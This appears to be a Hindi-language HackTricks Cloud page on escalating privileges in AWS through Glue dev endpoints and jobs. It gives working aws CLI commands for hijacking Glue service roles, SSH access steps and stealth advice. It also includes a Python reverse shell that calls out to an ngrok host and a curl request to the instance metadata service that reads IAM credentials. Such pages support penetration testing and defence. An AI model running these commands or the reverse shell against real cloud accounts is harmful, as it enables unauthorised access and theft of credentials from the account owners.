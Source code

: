# AWS - Glue Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इन अनुमतियों वाले उपयोगकर्ता **नया AWS Glue डेवलपमेंट एंडपॉइंट सेटअप कर सकते हैं**, **एक मौजूदा सेवा भूमिका को इस एंडपॉइंट पर निर्धारित विशेष अनुमतियों के साथ असाइन कर सकते हैं**।

सेटअप के बाद, **हमलावर एंडपॉइंट के इंस्टेंस में SSH के जरिए प्रवेश कर सकता है**, और असाइन की गई भूमिका की IAM साख चुरा सकता है:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
चुपके से काम करने के लिए, Glue वर्चुअल मशीन के अंदर से IAM प्रमाण-पत्र का उपयोग करने की सिफारिश की जाती है।

**संभावित प्रभाव:** Glue सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

इस अनुमति वाले उपयोगकर्ता **मौजूदा Glue डेवलपमेंट** एंडपॉइंट की SSH कुंजी को बदल सकते हैं, **इसे SSH पहुँच सक्षम करते हैं**। इससे हमलावर को एंडपॉइंट की संलग्न भूमिका के विशेषाधिकारों के साथ कमांड निष्पादित करने की अनुमति मिलती है:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**संभावित प्रभाव:** Glue सेवा भूमिका का प्रिवेस्क होना।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** के साथ उपयोगकर्ता, या तो **`glue:CreateJob` या `glue:UpdateJob`** के साथ, और **`glue:StartJobRun` या `glue:CreateTrigger`** में से किसी एक के साथ, **AWS Glue जॉब बना सकते हैं या अपडेट कर सकते हैं**, किसी भी **Glue सेवा खाते** को जोड़ सकते हैं, और जॉब के निष्पादन की शुरुआत कर सकते हैं। जॉब की क्षमताओं में मनमाने Python कोड को चलाना शामिल है, जिसका उपयोग करके रिवर्स शेल स्थापित किया जा सकता है। इस रिवर्स शेल का उपयोग करके **IAM क्रेडेंशियल** की चोरी की जा सकती है, जो Glue जॉब से जुड़ी भूमिका के लिए अनधिकृत पहुँच या क्रियाओं की संभावना को जन्म दे सकती है:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** glue सेवा भूमिका तक प्रिवेस्क प्राप्त करना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ, एक हमलावर पहले से जुड़ी हुई भूमिका की IAM साख चुरा सकता है।

**संभावित प्रभाव:** glue सेवा भूमिका से जुड़ी प्रिवेस्क प्राप्त करना।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर **मुझे फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
